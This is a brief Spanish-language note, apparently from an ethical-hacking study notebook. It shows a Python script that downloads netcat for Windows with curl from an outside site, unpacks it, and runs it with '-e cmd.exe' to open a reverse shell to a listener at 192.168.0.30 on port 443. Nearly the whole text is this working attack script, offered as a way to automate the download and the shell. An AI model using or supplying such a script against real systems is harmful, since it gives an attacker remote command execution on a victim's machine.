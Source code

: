 #HackingPython #PinguinoMario #HackingEtico
Podemos automatizar en un solo script de Python que netcat se descargue y se ejecute de esta manera:
```python
import os
import shutil

os.system("curl https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip -o netcat.zip")
shutil.unpack_archive("netcat.zip")
os.chdir("netcat-1.11")
os.system("nc64.exe 192.168.0.30 443 -e cmd.exe")
```
![[Pasted image 20221217090951.png]]
